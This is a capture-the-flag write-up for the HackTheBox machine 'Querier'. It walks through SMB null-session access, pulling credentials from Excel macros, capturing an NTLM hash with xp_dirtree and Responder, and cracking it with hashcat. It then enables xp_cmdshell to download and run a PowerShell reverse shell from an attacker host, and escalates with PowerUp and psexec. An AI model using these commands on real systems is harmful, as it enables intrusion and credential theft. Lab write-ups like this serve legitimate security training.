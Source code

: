 # Querier [htb](https://app.hackthebox.com/machines/Querier)
![querier-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/querier-01.png)


## Recon 

Lets start by adding the target to our `/etc/hosts` file:

![hosts-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/hosts-02.png)

With that out of the way, we can start enumerating:

`nmap -sC -sV -p- -A querier.htb -oN nmap.result`

![nmap-res-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/nmap-res-03.png)

We have the following:

+ RPC endpoint mapper on port 135.
+ netBIOS on port 139.
+ SMB on port 445.
+ Microsoft SQL server on port 1433.
+ HTTP-API on ports 5985 & 47001.
+ Other RPC related ports. 


The services that jump out the most to me are the SQL and SMB servers. Lets start by taking a look at the SMB though, maybe its misconfigured and we can access information we shouldn't. After that we'll take a look at the SQL server. 


## SMB port 445

Lets try to list out the SMB shares with a null session:

`smbclient -N -L \\\\querier.htb\\`

![shares-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/shares-04.png)

A null session is accepted, ideally this should not happen. Lets try to connect to the `Reports` share:

![smb-connect-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/smb-connect-05.png)

We can see the share hosts a single `.xlsm` file, this is a Microsoft Excel file. 
I use the following code to open the file on Linux:

```python
#!/usr/bin/python3

import sys
import pandas as pd

if len(sys.argv) != 2:
    print(f'Usage {sys.argv[0]} <input_xlsm_file>')
    sys.exit()

df = pd.read_excel(sys.argv[1], sheet_name=None)

for k,v in df.items():
    print(f'{k} = {v}')
```

However the file is empty: 

![empty-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/empty-06.png)

If we open the file through a Windows machine and click on `File`:

![button-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/button-07.png)


We can see the following:

![luis-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/luis-08.png)

At first i thought `Luis` is a username, and tried brute-forcing my way into the SQL server. This failed. 
So i decided to inspect the file by clicking the highlighted button which resulted in:

![inspect-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/inspect-09.png)

It says that the file has Maros configured. A macro is an action or a set of actions that can be recorded, named, saved and executed as many times as required and whenever desired. In other words its code. 

We can extract the macro code in clear text with a tool called [olevba](https://github.com/decalage2/oletools/wiki/olevba). You can download it with:

`sudo -H pip install -U oletools`

Once we have it installed we can extract the Macro code with:

`olevba 'Currency Volume Report.xlsm'`

![olevba-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/olevba-10.png)


This is an [SQL connection string](https://learn.microsoft.com/en-us/dotnet/api/system.data.sqlclient.sqlconnection.connectionstring?view=dotnet-plat-ext-7.0), the `Uid` is a username, and the `Pwd` is the password. 

Lets try to login to the SQL server with:

`impacket-mssqlclient reporting@querier.htb -windows-auth`

![sql-login-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/sql-login-11.png)

Were in! I tried enumerataing the database, as well as trying to pull off RCE, nothing worked for me. [source](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server).

Our user has very little permissions on the server, and there isn't much to see on the database. 
I also tried using the credentials we found with `impacket` tools like `psexec`, `wmiexec`, etc. Nothing worked for me. 

So i decided to try a MITM attack to capture the `mssql-svc` service account NTLM hash. 
To do this we need to run `responder` on our kali machine:

`responder -I tun0 -dwv`

Then, in the SQL prompt, we need to tell the server to fetch a file from our kali via SMB. There is no file or SMB server on 
our kali, but in the process, the SQL server service itself well send over its NTLM
hash which we will capture with `responder`. (These sorts of attacks are more common in AD environments).

Once `responder` is running, on the SQL server execute the following:

`xp_dirtree '\\<attacker_IP>\any\thing'`


Now check responder: 

![responder-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/responder-12.png)

Lets crack it. 


First save it to a file:

![hash-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/hash-13.png)


Now we can use `hashcat` to crack NTLMv2 hashes as such:

`hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt -o mssql-svc.pass`


The hash gets cracked rather quickly:

![cracked-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/cracked-14.png)

Lets log back in to the SQL server with the new account, now we should be able to pull of an RCE. 

The first we need is a reverse shell script, i will [nishang's](https://github.com/samratashok/nishang) `Invoke-PowerShellTcp.ps1`.

Copy this script over to your working directory, open it, and add the following at the end:

`Invoke-PowerShellTcp -Reverse -IPAddress <kali-ip> -Port 9001`


Next, over at the SQL server we need to enable advanced options:

```mssql
sp_configure 'show advanced options', '1'
RECONFIGURE
```


Now we can enable command execution with:

```mssql
sp_configure 'xp_cmdshell', '1
RECONFIGURE
```

On your kali start a python server:

`python3 -m http.server 80`

Start the listner: 

`nc -lnvp 9001`


Now we are ready to execute, on the SQL server run:

`EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://<kali-ip>/shell.ps1") | powershell -noprofile'`


Get a shell:

![shell-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/shell-15.png)


## Privilege Escalation


Lets cd into a directory we can work with:

`cd C:\Users\mssql-svc\appdata\local\temp`

From here, we can download and run [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1). 
Once you have the script on you kali start a python server:

`python3 -m http.server 80`

From the target, download the script with:

`iwr http://kali-ip/PowerUp.ps1 -OutFile powerup.ps1`

Start a Powershell session and load the script with:

```cmd
powershell -ep bypass
. .\powerup.ps1
Invoke-AllChecks
```

![admin-pass-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/admin-pass-16.png)

There are a lot of leads we can take from the PowerUp output, but i think this is the easiest. 

All we need to do is use `psexec`:

`impacket-psexec QUERIER/Administrator:'MyUnclesAreMarioAndLuigi!!1!'@querier.htb`

![root-17]()
